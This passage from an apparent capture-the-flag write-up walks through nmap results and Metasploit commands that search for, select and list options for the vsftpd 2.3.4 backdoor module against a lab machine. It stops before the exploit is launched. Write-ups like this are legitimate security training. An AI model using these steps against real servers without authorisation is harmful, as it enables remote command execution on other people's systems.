 ```
Nmap scan report for 10.10.10.3
Host is up.

PORT     STATE    SERVICE
6200/tcp filtered lm-x
```

At this point I could try to recreate the exploit manully as a PoC, but the ping scan restriction makes me think there maybe something a little sinester about the the box, lets try the msf exploit in searchsploit:

``` bash
msfconsole
```
lets look for the exploit:

``` ruby
search search vsftpd_234_backdoor
```

gives us:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

lets select it and configure the options

``` ruby
use exploit/unix/ftp/vsftpd_234_backdoor
show options
```

gives us only we need to configure:

```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
